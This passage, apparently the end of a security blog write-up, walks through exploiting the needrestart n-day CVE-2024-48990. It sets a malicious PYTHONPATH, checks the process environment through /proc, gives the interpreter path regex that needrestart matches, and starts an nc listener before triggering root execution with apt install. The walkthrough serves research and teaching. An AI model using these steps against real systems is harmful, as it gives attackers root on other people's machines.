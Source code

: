 I executed `python3 ./main.py` with our malicious `PYTHONPATH` variable.

```bash
$ export PYTHONPATH=/tmp/needrestart
$ python3 ./main.py
```

In a separate terminal, I verified that our process was showing up and the desired `PYTHONPATH` variable was set in the way that `needrestart` would read it.
```bash
$ ps ax | grep python3
 428477 pts/13   R+     0:03 python3 ./main.py
$ cat /proc/428477/environ | grep --text -oP 'PYTHONPATH[^\x00]*' # verify our environment variable shows up
PYTHONPATH=/tmp/needrestart
```

*Note: Make sure that the python3 binary that you are running is located at a path that follows this regex pattern for `needrestart` to recognize it as a valid Python program: `^/usr/(local/)?bin/python([23][.\d]*)?$`.*

Our target binary is famously triggered as the result of a hook in a package manager after actions such as installing a new package. Let's see what happens when I set up a `nc` listener and attempt to install `nano` using `apt`!

<video width="100%" controls>
    <source src="/videos/CVE-2024-48990_poc.mp4" type="video/mp4">
</video>


It worked! We have successfully identified and exploited the n-day, CVE-2024-48990. In a real-world environment, it is likely that a system administrator or cron job would periodically perform library upgrades on the vulnerable server through a package manager. The package manager, with elevated privileges, would launch call `needrestart`, which ends up scanning our attacker-controlled process and ultimately executing our desired Python code as root.


Thanks for reading!

